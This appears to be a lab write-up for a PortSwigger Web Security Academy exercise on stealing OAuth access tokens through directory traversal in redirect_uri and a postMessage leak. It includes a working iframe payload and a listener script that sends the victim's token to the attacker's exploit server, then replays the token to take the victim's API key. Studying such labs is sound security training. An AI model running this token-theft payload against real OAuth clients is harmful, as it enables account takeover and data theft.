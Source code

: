 # Stealing OAuth access tokens via a proxy page

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page) uses an `OAuth` service to allow users to log in with their social media account. Flawed validation by the `OAuth` service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application. 

## Reproduction and proof of concept

1. Log in with `wiener:peter`. Study the `OAuth` flow while proxying traffic through Burp. Using the same method as in the previous lab, identify that the `redirect_uri` is vulnerable to directory traversal. This enables you to redirect access tokens to arbitrary pages on the blog website.

![Oauth](../../_static/images/oauth18.png)

![Oauth](../../_static/images/oauth19.png)

2. Using Burp, audit the other pages on the blog website. Observe that the comment form is included as an `iframe` on each blog post. 

![Oauth](../../_static/images/oauth20.png)

Look closer at the `/post/comment/comment-form` page in Burp:

```text
<script>
    parent.postMessage({type: 'onload', data: window.location.href}, '*')
    function submitForm(form, ev) {
        ev.preventDefault();
        const formData = new FormData(document.getElementById("comment-form"));
        const hashParams = new URLSearchParams(window.location.hash.substr(1));
        const o = {};
        formData.forEach((v, k) => o[k] = v);
        hashParams.forEach((v, k) => o[k] = v);
        parent.postMessage({type: 'oncomment', content: o}, '*');
        form.reset();
    }
</script>
```
It uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (`*`).

3. From the proxy history, right-click on the `GET /auth?client_id=[...]` request and select **Copy URL**. 

```text
https://oauth-0a96005b04ff5f0ac04f571402a3005d.oauth-server.net/auth?client_id=i1venwl6rtpdzcwkm9or8&redirect_uri=https://0a1b0095040d5f81c0cc594500a900a1.web-security-academy.net/oauth-callback&response_type=token&nonce=1976758516&scope=openid%20profile%20email
```

4. Go to the exploit server and create an iframe in which the `src` attribute is the URL you just copied. Use directory traversal to change the `redirect_uri` so that it points to the comment form. The result should look something like this:

```text
<iframe src="https://oauth-0a96005b04ff5f0ac04f571402a3005d.oauth-server.net/auth?client_id=i1venwl6rtpdzcwkm9or8&redirect_uri=https://0a1b0095040d5f81c0cc594500a900a1.web-security-academy.net/oauth-callback/post/comment/comment-form&response_type=token&nonce=1976758516&scope=openid%20profile%20email"></iframe>
```

4. Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:

```text
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

5. To check the exploit is working, store it and then click **View exploit**. Make sure that the `iframe` loads then go to the exploit server's access log. There should be a request for which the path is the full URL of the comment form, along with a fragment containing the access token.
6. Go back to the exploit server and deliver this exploit to the victim. Copy their access token from the log. Make sure you don't accidentally include any of the surrounding URL-encoded characters.

![Oauth](../../_static/images/oauth21.png)

7. Send the `GET /me` request to Burp Repeater. In Repeater, replace the token in the `Authorization: Bearer` header with the one you just copied and send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.

![Oauth](../../_static/images/oauth22.png)

8. Use the **Submit solution** button at the top of the lab page to submit the stolen key and solve the lab.

![Oauth](../../_static/images/oauth23.png)

## Exploitability

An attacker will need to log in; and then identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account; use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

The admin user will open anything you send from the exploit server, and they always have an active session with the `OAuth` service. 
